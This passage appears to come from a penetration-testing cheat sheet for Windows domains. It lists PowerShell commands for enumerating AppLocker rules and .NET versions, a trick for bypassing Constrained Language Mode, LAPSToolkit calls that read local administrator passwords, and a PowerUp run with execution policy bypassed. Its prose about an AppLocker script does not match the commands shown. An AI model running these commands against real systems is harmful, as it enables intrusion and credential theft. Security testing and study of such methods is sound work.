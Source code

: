 ```powershell
Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4" /s

```
The script will try to find all the AppLocker rules that don’t have the Default Rule in their name and then output the FilePath,FilePublisher and FileHash rules.

### 5) Powershell CLM & LAPS

#### PowerShell Constrained Language Mode
Sometimes you may find yourself in a PowerShell session that enforces Constrained Language Mode (CLM). This is very often the case when paired with AppLocker.
You can identify you’re in constrained language mode by polling the following variable to get the current language mode. It will say FullLanguage for an unrestricted session, and ConstrainedLanguage for CLM. 

```powershell
$ExecutionContext.SessionState.LanguageMode
```

The constraints posed by CLM will block many of your exploitations attempts. One quick and dirty bypass is to use in-line functions, which sometimes works - if e.g. whoami is blocked, try the following:

```powershell
&{whoami}
```

#### LAPS 
We can use `LAPSToolkit.ps1` to identify which machines in the domain use LAPS, and which domain groups are allowed to read LAPS passwords. If we are in this group, we can get the current LAPS passwords using this tool as well.

```powershell
#Get computers running LAPS, along with their passwords if we're allowed to read those
Get-LAPSComputers
#Get groups allowed to read LAPS passwords
Find-LAPSDelegatedGroups
```


## 6) PrivEsc

#### PowerUp

```py
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks | Out-File -Encoding ASCII Allchecks.txt
```
